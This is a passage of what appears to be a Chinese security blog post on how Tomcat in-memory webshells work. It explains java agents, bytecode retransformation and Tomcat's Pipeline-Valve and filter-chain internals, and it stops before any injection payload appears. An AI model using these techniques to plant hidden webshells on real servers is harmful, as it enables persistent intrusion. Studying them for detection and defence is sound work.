


本文从tomcat容器（Container）的请求处理流程来以及组件的注册流程来分析tomcat内存马的实现。
目录 基础知识 内存马类型 java agent基础知识 premain VirtualMachine Instrumentation agentmain Tomcat基础知识 Listener Filter Servlet Container 结构 Container请求处理流程 Container请求处理流程源码分析 Servlet加载与初始化 StandardContext FilterMap FilterDef 内存马 Agent型内存马 获取StandardContext对象 Listener内存马实现 Filter内存马实现 servlet内存马实现 Pipeline-Valve内存马实现 基础知识 内存马类型 目前业界的内存马主要分为两大类：
java agent基础知识 参考：https://xz.aliyun.com/t/9450#toc-3
在JDK1.5以后，javaagent是一种能够在不影响正常编译的情况下，修改字节码。
Agent分为两种，一种是在主程序之前运行的Agent，一种是在主程序之后运行的Agent（前者的升级版，1.6以后提供）
premain方法，主程序之前运行的Agent。
agentmain方法，主程序之后运行的Agent。
premain 写一个premain实例
1、创建一个PremainAgent类
1 2 3 4 5 6 7 8 9 import java.lang.instrument.Instrumentation;public class PremainAgent public static void premain (String args, Instrumentation inst) throws Exception for (int i = 0 ; i < 3 ; i++) { System.out.println("premain invoke!" ); } } }
2、在resources包下创建META-INF/MANIFEST.MF文件，并写入如下内容(记得多敲一个回车)
1 2 3 4 5 Manifest-Version: 1.0 Can-Redefine-Classes: true Can-Retransform-Classes: true Premain-Class: org.example.PremainAgent

3、打包成jar包PremainAgent.jar
4、编写HelloWorld主程序
1 2 3 4 5 6 7 public class HelloWorld public static void main (String[] args) for (int i = 0 ; i < 3 ; i++){ System.out.println("Hello,World!" ); } } }
5、打包成HelloWorld.jar包
这里注意一下设置main class

6、命令行运行java -javaagent:PremainAgent.jar -jar HelloWorld.jar
VirtualMachine 该类允许我们通过给attach方法传入一个jvm的pid(进程id)，远程连接到jvm上 。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 public abstract class VirtualMachine public static List<VirtualMachineDescriptor> list () public static VirtualMachine attach (String id) public abstract void detach () public void loadAgent (String agent) }
Instrumentation Instrumentation 常用方法如下：
void addTransformer(ClassFileTransformer transformer, boolean canRetransform);
void redefineClasses(ClassDefinition… definitions) hrows ClassNotFoundException, UnmodifiableClassException;
boolean removeTransformer(ClassFileTransformer transformer);
void retransformClasses(Class<?>… classes) throws UnmodifiableClassException
agentmain agentmain与premain不同在于，agentmain可以在程序执行时加载，下面就来实现一下程序执行时修改程序字节码
1、创建主程序（也就是被修改的类），无线循环打印Hello,Word!!!
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 import java.util.concurrent.TimeUnit;public class Run public static void main (String[] args) throws InterruptedException Run run = new Run(); while (true ){ run.HelloWord(); TimeUnit.SECONDS.sleep(2 ); } } public void HelloWord () System.out.println("Hello,Word!!!" ); } }
2、创建一个AgentMain类以及TransformerDemo内部类，TransformerDemo内部类实现ClassFileTransformer接口
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 import javassist.ClassClassPath;import javassist.ClassPool;import javassist.CtClass;import javassist.CtMethod;import java.lang.instrument.ClassFileTransformer;import java.lang.instrument.IllegalClassFormatException;import java.lang.instrument.Instrumentation;import java.lang.instrument.UnmodifiableClassException;import java.security.ProtectionDomain;public class AgentMain public static void agentmain (String agentArgs, Instrumentation inst) throws UnmodifiableClassException System.out.println("agentmain invoke ! ! !" ); Class[] classes = inst.getAllLoadedClasses(); for (Class aClass : classes) { if (aClass.getName().equals(TransformerDemo.editClassName)) { inst.addTransformer(new TransformerDemo(), true ); inst.retransformClasses(aClass); } } } } class TransformerDemo implements ClassFileTransformer public static final String editClassName = "org.example.Run" ; public static final String editMethod = "HelloWord" ; @Override public byte [] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte [] classfileBuffer) throws IllegalClassFormatException { try { ClassPool cp = ClassPool.getDefault(); if (classBeingRedefined != null ) { ClassClassPath ccp = new ClassClassPath(classBeingRedefined); cp.insertClassPath(ccp); } CtClass ctc = cp.get(editClassName); CtMethod method = ctc.getDeclaredMethod(editMethod); String source = "{System.out.println(\"Hello transformer!!!\");}" ; method.setBody(source); byte [] bytes = ctc.toBytecode(); ctc.detach(); return bytes; } catch (Exception e){ e.printStackTrace(); } return null ; } }
3、在resources包下创建META-INF/MANIFEST.MF文件，并写入如下内容
1 2 3 4 5 Manifest-Version: 1.0 Can-Redefine-Classes: true Agent-Class: org.example.AgentMain Can-Retransform-Classes: true
4、将AgentMain打包成jar包agentmain.jar
5、编写attachmain用于调用Attach API 实现启动后加载
1 2 3 4 5 6 7 8 9 public static void main ( String[] args ) throws IOException, AttachNotSupportedException, AgentLoadException, AgentInitializationException for (VirtualMachineDescriptor descriptor : VirtualMachine.list()) { if (descriptor.displayName().equals("org.example.Run" )) { VirtualMachine virtualMachine = VirtualMachine.attach(descriptor.id()); virtualMachine.loadAgent("C:\\IdeaProjects\\tomcatdebug\\agentmain\\out\\artifacts\\agentmain_jar\\agentmain.jar" ); virtualMachine.detach(); } } }
6、先启动主程序Run，开始打印Hello,Word!!!
7、启动attachmain加载agentmain.jar，实现修改Run.HelloWord方法字节码
Tomcat基础知识 Listener
JavaWeb开发中的监听器（Listener）就是Application、Session和Request三大对象创建、销毁或者往其中添加、修改、删除属性时自动执行代码的功能组件。
生命周期
以ServletRequestListener为例，ServletRequestListener主要用于监听ServletRequest对象的创建和销毁,一个ServletRequest可以注册多个ServletRequestListener接口。
每次请求创建时调用requestInitialized()。
每次请求销毁时调用requestDestroyed()。
代码实现：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 public class ListenerDemo implements ServletRequestListener @Override public void requestInitialized (ServletRequestEvent sre) System.out.println("请求创建" ); } @Override public void requestDestroyed (ServletRequestEvent sre) System.out.println("请求销毁" ); } }
Filter
filter也称之为过滤器，是对Servlet技术的一个强补充，其主要功能是在HttpServletRequest到达 Servlet 之前，拦截客户的HttpServletRequest ，根据需要检查HttpServletRequest，也可以修改HttpServletRequest 头和数据；在HttpServletResponse到达客户端之前，拦截HttpServletResponse ，根据需要检查HttpServletResponse，也可以修改HttpServletResponse头和数据。
生命周期
自定义Filter的实现，需要实现javax.servlet.Filter下的init()、doFilter()、destroy()三个方法。
启动服务器时加载过滤器的实例，并调用init()方法来初始化实例；
每一次请求时都只调用方法doFilter()进行处理；
停止服务器时调用destroy()方法，销毁实例。
代码实现：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 public class FilterDemo implements Filter @Override public void init (FilterConfig filterConfig) throws ServletException } @Override public void doFilter (ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException System.out.println("doFilter执行" ); filterChain.doFilter(servletRequest,servletResponse); } @Override public void destroy () } }
Servlet
servlet是一种运行服务器端的java应用程序，具有独立于平台和协议的特性，并且可以动态的生成web页面，它工作在客户端请求与服务器响应的中间层。Servlet 的主要功能在于交互式地浏览和修改数据，生成动态 Web 内容。
生命周期
Servlet 的生命周期开始于Web容器的启动时，它就会被载入到Web容器内存中，直到Web容器停止运行或者重新装入servlet时候结束。这里也就是说明，一旦Servlet被装入到Web容器之后，一般是会长久驻留在Web容器之中。
装入：启动服务器时加载Servlet的实例
初始化：web服务器启动时或web服务器接收到请求时，或者两者之间的某个时刻启动。初始化工作有init()方法负责执行完成
调用：从第一次到以后的多次访问，都是只调用doGet()或doPost()方法
销毁：停止服务器时调用destroy()方法，销毁实例
代码实现：
1 2 3 4 5 6 7 8 public class ServletDemo extends HttpServlet public void doGet (HttpServletRequest request, HttpServletResponse response) throws IOException System.out.println("Servlet执行...." ); } }
web.xml对于这三种组件的加载顺序是：listener -> filter -> servlet，也就是说listener的优先级为三者中最高的。
Container 结构 Tomcat设计了4种容器，分别是Engine、Host、Context和Wrapper。这4种容器是父子关系。 Tomcat通过一种分层的架构，使得Servlet容器具有很好的灵活性。
各个组件的含义 ：
Engine:
表示整个Catalina的Servlet引擎，用来管理多个虚拟站点，一个Service最多只能有一个Engine，但是一个引擎可包含多个Host
Host:
代表一个虚拟主机，或者说一个站点，可以给Tomcat配置多个虚拟主机地址，而一个虚拟主机下可包含多个Context
Context:
表示一个Web应用程序， 一个Web应用可包含多个Wrapper
Wrapper:
表示一个Servlet，Wrapper 作为容器中的最底层，不能包含子容器
Container请求处理流程 Container处理请求是使用Pipeline-Valve管道来处理的！（Valve是阀门之意）
Pipeline-Valve是责任链模式，责任链模式是指在一个请求处理的过程中有很多处理者依次对请求进行处理，每个处理者负责做自己相应的处理，处理完之后将处理后的请求返回，再让下一个处理着继续处理。
但是！Pipeline-Valve使用的责任链模式和普通的责任链模式有些不同！区别主要有以下两点：
每个Pipeline都有特定的Valve，而且是在管道的最后一个执行，这个Valve叫做BaseValve，BaseValve是不可删除的；
在上层容器的管道的BaseValve中会调用下层容器的管道。
我们知道Container包含四个子容器，而这四个子容器对应的BaseValve分别在：StandardEngineValve、StandardHostValve、StandardContextValve、StandardWrapperValve。
Pipeline的处理流程图如下：
Connector在接收到请求后会首先调用最顶层容器的Pipeline来处理，这里的最顶层容器的Pipeline就是EnginePipeline（Engine的管道）；
在Engine的管道中依次会执行EngineValve1、EngineValve2等等，最后会执行StandardEngineValve，在StandardEngineValve中会调用Host管道，然后再依次执行Host的HostValve1、HostValve2等，最后在执行StandardHostValve，然后再依次调用Context的管道和Wrapper的管道，最后执行到StandardWrapperValve。
当执行到StandardWrapperValve的时候，会在StandardWrapperValve中创建FilterChain，并调用其doFilter方法来处理请求，这个FilterChain包含着我们配置的与请求相匹配的Filter和Servlet，其doFilter方法会依次调用所有的Filter的doFilter方法和Servlet的service方法，这样请求就得到了处理！
当所有的Pipeline-Valve都执行完之后，并且处理完了具体的请求，这个时候就可以将返回的结果交给Connector了，Connector在通过Socket的方式将结果返回给客户端。
Container请求处理流程源码分析 这里只是对Container的处理流程分析，所以直接找到连接器（Connector）和容器（Container）相连的Adapter 组件的实现类CoyoteAdapter，CoyoteAdapter负责将Tomcat Request转成ServletRequest，再调用容器的Service方法。
Service方法
直接看关键代码
1 connector.getService().getContainer().getPipeline().getFirst().invoke(request, response);
connector.getService() 获取的是当前 connector 关联的 Service 组件，默认情况下获得的就org.apache.catalina.core.StandardService的对象。
getContainer 方法获得的是org.apache.catalina.core.StandardEngine的对象，这里为什么能获取到StandardEngine对象涉及到了Java 解析 xml 文件，通过Digester 对象所包含的解析规则生成相应对象。这里不做深入研究。
紧接着的 getPipeline 方法返回的是 StandardEngine 类的父类org.apache.catalina.core.ContainerBase类的成员变量 pipeline
所以 connector.getService().getContainer().getPipeline() 方法返回的是org.apache.catalina.core.StandardPipeline类的对象
该对象就是前面提到的管道（ Pipeline ）。所有的管道类都会实现org.apache.catalina.Pipeline这个接口，看下这个接口中定义的方法：
Tomat中一个管道包含多个阀（ Valve ），这些阀共分为两类，一类叫基础阀（通过 getBasic、setBasic 方法调用），一类是普通阀（通过 addValve、removeValve 调用）。管道都是包含在一个容器当中，所以 API 里还有 getContainer 和 setContainer 方法。一个管道一般有一个基础阀（通过 setBasic 添加），可以有 0 到多个普通阀（通过 addValve 添加）。
所有的阀类都会实现org.apache.catalina.Valve这个接口，看下这个接口中定义的方法：
重点关注 setNext、getNext、invoke 这三个方法，通过setNext设置该阀的下一阀，通过 getNext 返回该阀的下一个阀的引用，invoke 方法则执行该阀内部自定义的请求处理代码。
Tomcat里 Pipeline 的默认实现类是org.apache.catalina.core.StandardPipeline，其内部有三个成员变量：basic、first、container 。Pipeline 内部维护 first 和 basic 两个阀，其它相关阀通过 getNext 来获取。
继续看connector.getService().getContainer().getPipeline().getFirst()方法getFirst的实现：
如果管道中有普通阀则返回普通阀链条最开始的那个，否则就返回基础阀。
那么就来看看 StandardEngine 类的管道中的基础阀的代码实现。先看下该基础阀设置的代码，在org.apache.catalina.core.StandardEngine对象的构造函数中：
第 67行即设置基础阀。所以connector.getService().getContainer().getPipeline().getFirst().invoke(request, response) 类的 invoke 方法会执行到 org.apache.catalina.core.StandardEngineValve 类的 invoke 方法
从请求对象中取出该请求关联的 Hsost（默认情况下是org.apache.catalina.core.StandardHost对象），经过上述代码分析应该可以看出87行会先判断StandardPipeline对象的first属性是否为null，不为null，则返回first对象，所以这里应该是执行AbstractAccessLogValve的invoke方法。
通过 getNext 返回该阀的下一个阀的引用
获取到ErrorReportValve，调用ErrorReportValve的invoke方法
再通过 getNext 返回该阀的下一个阀的引用
这里返回StandardHostValve，就会调用StandardHostValve的invoke方法。
第137 行，会调用该请求相关的 Context 的管道内所有的阀的 invoke 方法，默认情况下 Context 是org.apache.catalina.core.StandardContext类的对象，其构造方法中设置了管道的基础阀
所以无论有多少个Valve最后都会调用StandardContextValve的invoke方法，
看下其基础阀的 invoke 方法代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 public final void invoke (Request request, Response response) throws IOException, ServletException { MessageBytes requestPathMB = request.getRequestPathMB(); if ((requestPathMB.startsWithIgnoreCase("/META-INF/" , 0 )) || (requestPathMB.equalsIgnoreCase("/META-INF" )) || (requestPathMB.startsWithIgnoreCase("/WEB-INF/" , 0 )) || (requestPathMB.equalsIgnoreCase("/WEB-INF" ))) { response.sendError(HttpServletResponse.SC_NOT_FOUND); return ; } Wrapper wrapper = request.getWrapper(); if (wrapper == null || wrapper.isUnavailable()) { response.sendError(HttpServletResponse.SC_NOT_FOUND); return ; } try { response.sendAcknowledgement(); } catch (IOException ioe) { container.getLogger().error(sm.getString( "standardContextValve.acknowledgeException" ), ioe); request.setAttribute(RequestDispatcher.ERROR_EXCEPTION, ioe); response.sendError(HttpServletResponse.SC_INTERNAL_SERVER_ERROR); return ; } if (request.isAsyncSupported()) { request.setAsyncSupported(wrapper.getPipeline().isAsyncSupported()); } wrapper.getPipeline().getFirst().invoke(request, response); }
最后一 行，从请求中取出关联的 wrapper 对象后调用其管道内所有阀的 invoke 方法最后调用基础阀StandardWrapperValve的invoke方法。wrapper 对象默认是org.apache.catalina.core.StandardWrapper类的实例，同样是在该类的构造方法中设置的基础阀：
我们来看StandardWrapperValve的invoke方法，代码很长我们直接看关键代码。
关键代码：
这儿调用Wrapper的allocate()方法分配一个Servlet实例，前面提到wrapper 对象默认是org.apache.catalina.core.StandardWrapper类的实例
1 2 3 if (!unavailable) { servlet = wrapper.allocate(); }
allocate方法里真正加载并初始化servlet实例的是loadServlet方法
loadServlet方法通过实例管理器，创建Servlet实例
最后返回Servlet
回到StandardWrapperValve中继续往下执行，创建过滤器链
创建过滤器链，类似于Pipeline的功能
1 ApplicationFilterChain filterChain = ApplicationFilterFactory.createFilterChain(request, wrapper, servlet);
创建过滤器链是调用的org.apache.catalina.core.ApplicationFilterFactory的createFilterChain()方法。
初始化一个空的 FilterChain。
设置Servlet
获取StandardContext对象，然后调用StandardContext对象的findFilterMaps方法。
findFilterMaps方法返回filterMaps属性，filterMaps属性是一个ContextFilterMaps对象，里面的array属性是FilterMap对象，FilterMap对象中存储着filter的web.xml的配置信息。FilterMap的filterName属性存储着<filter-name>标签的内容，urlPatterns属性存储着<url-pattern>标签的内容。
获取请求的URL路径和Servlet的名字。
调用FilterMap对象的getFilterName方法，获取ContextFilterMaps对象的FilterMap对象中的filterName属性
再调用StandardContext对象的findFilterConfig方法。filterConfigs是一个HashMap对象，里面存放着String和ApplicationFilterConfig类型的键值对对象。这里返回filterConfigs对象中key为FilterDemo的value对象，也就是ApplicationFilterConfig对象。
ApplicationFilterConfig对象存放着filterDef对象，filterDef对象中存放着filterClass和filterName的定义
继续往下执行，将filterConfig添加到filterChain的filters数组中
返回FilterChain
回到StandardWrapperValve的invoke方法。
调用过滤器链的doFilter，最终会调用到Servlet的service方法
1 filterChain.doFilter(request.getRequest(),response.getResponse());
ApplicationFilterChain类的doFilter函数代码如下,它会将处理委托给internalDoFilter函数。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 @Override public void doFilter (ServletRequest request, ServletResponse response) throws IOException, ServletException { if ( Globals.IS_SECURITY_ENABLED ) { final ServletRequest req = request; final ServletResponse res = response; try { java.security.AccessController.doPrivileged( new java.security.PrivilegedExceptionAction<Void>() { @Override public Void run () throws ServletException, IOException { internalDoFilter(req,res); return null ; } } ); } catch ( PrivilegedActionException pe) { Exception e = pe.getException(); if (e instanceof ServletException) throw (ServletException) e; else if (e instanceof IOException) throw (IOException) e; else if (e instanceof RuntimeException) throw (RuntimeException) e; else throw new ServletException(e.getMessage(), e); } } else { internalDoFilter(request,response); } }
ApplicationFilterChain类的internalDoFilter函数代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 private void internalDoFilter (ServletRequest request, ServletResponse response) throws IOException, ServletException { if (pos < n) { ApplicationFilterConfig filterConfig = filters[pos++]; try { Filter filter = filterConfig.getFilter(); if (request.isAsyncSupported() && "false" .equalsIgnoreCase( filterConfig.getFilterDef().getAsyncSupported())) { request.setAttribute(Globals.ASYNC_SUPPORTED_ATTR, Boolean.FALSE); } if ( Globals.IS_SECURITY_ENABLED ) { final ServletRequest req = request; final ServletResponse res = response; Principal principal = ((HttpServletRequest) req).getUserPrincipal(); Object[] args = new Object[]{req, res, this }; SecurityUtil.doAsPrivilege ("doFilter" , filter, classType, args, principal); } else { filter.doFilter(request, response, this ); } } catch (IOException | ServletException | RuntimeException e) { throw e; } catch (Throwable e) { e = ExceptionUtils.unwrapInvocationTargetException(e); ExceptionUtils.handleThrowable(e); throw new ServletException(sm.getString("filterChain.filter" ), e); } return ; } try { if (ApplicationDispatcher.WRAP_SAME_OBJECT) { lastServicedRequest.set(request); lastServicedResponse.set(response); } if (request.isAsyncSupported() && !servletSupportsAsync) { request.setAttribute(Globals.ASYNC_SUPPORTED_ATTR, Boolean.FALSE); } if ((request instanceof HttpServletRequest) && (response instanceof HttpServletResponse) && Globals.IS_SECURITY_ENABLED ) { final ServletRequest req = request; final ServletResponse res = response; Principal principal = ((HttpServletRequest) req).getUserPrincipal(); Object[] args = new Object[]{req, res}; SecurityUtil.doAsPrivilege("service" , servlet, classTypeUsedInService, args, principal); } else { servlet.service(request, response); } } catch (IOException | ServletException | RuntimeException e) { throw e; } catch (Throwable e) { e = ExceptionUtils.unwrapInvocationTargetException(e); ExceptionUtils.handleThrowable(e); throw new ServletException(sm.getString("filterChain.servlet" ), e); } finally { if (ApplicationDispatcher.WRAP_SAME_OBJECT) { lastServicedRequest.set(null ); lastServicedResponse.set(null ); } } }
pos和n是ApplicationFilterChain的成员变量，分别表示过滤器链的当前位置和过滤器总数，所以当pos小于n时，会不断执行ApplicationFilterChain的doFilter方法；当pos等于n时，过滤器都执行完毕，最后执行servlet.service(request, response)方法。
Servlet加载与初始化 容器组件（ StandardEngine、StandardHost、StandardContext、StandardWrapper ）都会继承父类org.apache.catalina.core.ContainerBase，在这些容器组件启动时将会调用自己内部的 startInternal 方法，在该方法内部一般会调用父类的 startInternal 方法（ StandardContext 类的实现除外），StandardContext 类会调用自己的startInternal 方法，在StandardContext 类的startInternal 方法中，会调用loadOnStartup方法，加载并初始化所有“load on startup”servlet。
跟进findChildren
children是一个子容器。
children是一个HashMap类型对象，存储着StandardWrapper对象，然后将HashMap类型对象转换为Container类型return，然后进入loadOnStartup方法。这个children就是我们注入Servlet内存马的关键，会在内存马的实现中用到。
loadOnStartup
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 public class StandardContext extends ContainerBase implements Context , NotificationEmitter { public boolean loadOnStartup (Container children[]) TreeMap<Integer, ArrayList<Wrapper>> map = new TreeMap<>(); for (Container child : children) { Wrapper wrapper = (Wrapper) child; int loadOnStartup = wrapper.getLoadOnStartup(); if (loadOnStartup < 0 ) { continue ; } Integer key = Integer.valueOf(loadOnStartup); ArrayList<Wrapper> list = map.get(key); if (list == null ) { list = new ArrayList<>(); map.put(key, list); }<>() list.add(wrapper); } for (ArrayList<Wrapper> list : map.values()) { for (Wrapper wrapper : list) { try { wrapper.load(); } catch (ServletException e) { getLogger().error(sm.getString("standardContext.loadOnStartup.loadException" , getName(), wrapper.getName()), StandardWrapper.getRootCause(e)); if (getComputedFailCtxIfServletStartFails()) { return false ; } } } } return true ; }
加载并初始化
StandardContext StandardContext是Context的实现类，初始化各种Listener、Filter和Servlet，内存马都是基于修改StandardContext来实现的，下面介绍几个在注入内存马中会用到的方法及属性
filterConfigs属性
存放着filter配置以及实例，以filter名键入
1 2 3 4 5 6 private HashMap<String, ApplicationFilterConfig> filterConfigs = new HashMap<>();
filterDefs
filter定义集，以filter名键入，存储着filter的定义
1 2 3 4 5 private HashMap<String, FilterDef> filterDefs = new HashMap<>();
filterMaps
filter映射集，存储着filter的映射关系
1 2 3 4 5 6 7 private final ContextFilterMaps filterMaps = new ContextFilterMaps();
addApplicationEventListener
将侦听器添加到初始化的应用程序事件侦听器列表的末尾
1 2 3 4 5 6 7 8 9 public void addApplicationEventListener (Object listener) applicationEventListenersList.add(listener); }
addFilterDef
为Context添加一个Filter定义
1 2 3 4 5 6 7 8 9 10 11 12 13 14 @Override public void addFilterDef (FilterDef filterDef) synchronized (filterDefs) { filterDefs.put(filterDef.getFilterName(), filterDef); } fireContainerEvent("addFilterDef" , filterDef); }
addFilterMap
在当前的Filter映射集的末尾添加一个Filter映射到这个Context
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 @Override public void addFilterMap (FilterMap filterMap) validateFilterMap(filterMap); filterMaps.add(filterMap); fireContainerEvent("addFilterMap" , filterMap); }
createWrapper
创建并返回一个新的Wrapper实例
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 @Override public Wrapper createWrapper () Wrapper wrapper = null ; if (wrapperClass != null ) { try { wrapper = (Wrapper) wrapperClass.getConstructor().newInstance(); } catch (Throwable t) { ExceptionUtils.handleThrowable(t); log.error("createWrapper" , t); return null ; } } else { wrapper = new StandardWrapper(); } synchronized (wrapperLifecyclesLock) { for (int i = 0 ; i < wrapperLifecycles.length; i++) { try { Class<?> clazz = Class.forName(wrapperLifecycles[i]); LifecycleListener listener = (LifecycleListener) clazz.getConstructor().newInstance(); wrapper.addLifecycleListener(listener); } catch (Throwable t) { ExceptionUtils.handleThrowable(t); log.error("createWrapper" , t); return null ; } } } synchronized (wrapperListenersLock) { for (int i = 0 ; i < wrapperListeners.length; i++) { try { Class<?> clazz = Class.forName(wrapperListeners[i]); ContainerListener listener = (ContainerListener) clazz.getConstructor().newInstance(); wrapper.addContainerListener(listener); } catch (Throwable t) { ExceptionUtils.handleThrowable(t); log.error("createWrapper" , t); return null ; } } } return wrapper; }
addChild
添加子容器
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 @Override public void addChild (Container child) Wrapper oldJspServlet = null ; if (!(child instanceof Wrapper)) { throw new IllegalArgumentException (sm.getString("standardContext.notWrapper" )); } boolean isJspServlet = "jsp" .equals(child.getName()); if (isJspServlet) { oldJspServlet = (Wrapper) findChild("jsp" ); if (oldJspServlet != null ) { removeChild(oldJspServlet); } } super .addChild(child); if (isJspServlet && oldJspServlet != null ) { String[] jspMappings = oldJspServlet.findMappings(); for (int i=0 ; jspMappings!=null && i<jspMappings.length; i++) { addServletMappingDecoded(jspMappings[i], child.getName()); } } }
addServletMappingDecoded
servletMappings是一个HashMap类型的变量，存储了servletPath和servletName的键值对关系，addServletMappingDecoded函数实现了将servletPath和servletName添加为一个映射的功能；
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 public void addServletMappingDecoded (String pattern, String name, boolean jspWildCard) if (findChild(name) == null ) throw new IllegalArgumentException (sm.getString("standardContext.servletMap.name" , name)); String adjustedPattern = adjustURLPattern(pattern); if (!validateURLPattern(adjustedPattern)) throw new IllegalArgumentException (sm.getString("standardContext.servletMap.pattern" , adjustedPattern)); synchronized (servletMappingsLock) { String name2 = servletMappings.get(adjustedPattern); if (name2 != null ) { Wrapper wrapper = (Wrapper) findChild(name2); wrapper.removeMapping(adjustedPattern); } servletMappings.put(adjustedPattern, name); } Wrapper wrapper = (Wrapper) findChild(name); wrapper.addMapping(adjustedPattern); fireContainerEvent("addServletMapping" , adjustedPattern); }
FilterMap Web 应用程序的filter映射，如部署描述符中<filter-mapping>元素所表示，FilterMap提供了一些方法用来添加filter映射关系。
addURLPattern
添加映射匹配的URL
1 2 3 public void addURLPattern (String urlPattern) addURLPatternDecoded(UDecoder.URLDecode(urlPattern, getCharset())); }
setFilterName
设置FilterName
1 2 3 public void setFilterName (String filterName) this .filterName = filterName; }
setDispatcher
此方法将用于设置 FilterMap 的当前状态，表示应应用过滤器的状态
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 public void setDispatcher (String dispatcherString) String dispatcher = dispatcherString.toUpperCase(Locale.ENGLISH); if (dispatcher.equals(DispatcherType.FORWARD.name())) { dispatcherMapping |= FORWARD; } else if (dispatcher.equals(DispatcherType.INCLUDE.name())) { dispatcherMapping |= INCLUDE; } else if (dispatcher.equals(DispatcherType.REQUEST.name())) { dispatcherMapping |= REQUEST; } else if (dispatcher.equals(DispatcherType.ERROR.name())) { dispatcherMapping |= ERROR; } else if (dispatcher.equals(DispatcherType.ASYNC.name())) { dispatcherMapping |= ASYNC; } }
FilterDef Web 应用程序的filter定义，如部署描述符中的 <filter> 元素所示，FilterDef提供了一些方法用来设置filter定义。
setFilter
设置Filter
1 2 3 4 5 6 7 8 9 10 11 12 private transient Filter filter = null ;public Filter getFilter () return filter; } public void setFilter (Filter filter) this .filter = filter; }
setFilterName
设置Filter名
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 private String filterName = null ;public String getFilterName () return (this .filterName); } public void setFilterName (String filterName) if (filterName == null || filterName.equals("" )) { throw new IllegalArgumentException( sm.getString("filterDef.invalidFilterName" , filterName)); } this .filterName = filterName; }
setFilterClass
设置Filter类
1 2 3 4 5 6 7 8 9 10 11 12 private String filterClass = null ;public String getFilterClass () return (this .filterClass); } public void setFilterClass (String filterClass) this .filterClass = filterClass; }
内存马 Agent型内存马 在Container请求处理流程源码分析中，我们知道在调用过滤器链时，会调用ApplicationFilterChain类的doFilter方法,doFilter方法它会将处理委托给internalDoFilter方法，pos和n是ApplicationFilterChain的成员变量，分别表示过滤器链的当前位置和过滤器总数，所以当pos小于n时，会不断执行ApplicationFilterChain的doFilter方法，因此我们可以用internalDoFilter方法作为内存马入口方法。
1、定义AgentMain，TransformerDemo，在定义一个readSource方法来读取恶意代码。
